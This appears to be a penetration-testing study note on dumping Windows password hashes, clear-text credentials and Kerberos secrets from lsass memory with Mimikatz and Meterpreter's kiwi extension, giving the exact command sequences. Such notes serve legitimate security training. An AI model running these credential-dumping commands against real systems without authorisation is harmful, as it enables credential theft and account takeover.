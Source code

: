 ```yaml
---
up: "[[Windows Credential Dumping]]"
tools:
  - "[[mimikatz]]"
---
```


# Dumping Hashes with Mimikatz

- Mimikatz: Windows post-exploitation tool
- Allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory
- Used to extract hashes from the `lsass.exe` process memory where hashes are cached
- We can run the pre-compiled mimikatz executable or from a meterpreter session use the kiwi extension
- Admin privileges are required to run properly

## Demonstration

### Kiwi extension

```bash
> pgrep lsass
> migrate <port>
```

```bash
> load kiwi
# help menu
> ?
> creds_all
> lsa_dump_sam
> lsa_dump_secrets
```

In a real pentest don't change a user's password.

### Mimikatz.exe

```bash
> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
> shell
>.\mimikatz.exe
# privilege::debug
'20' OK
# lsadump::sam
# lsadump::secrets
# sekurlsa::logonpasswords
```
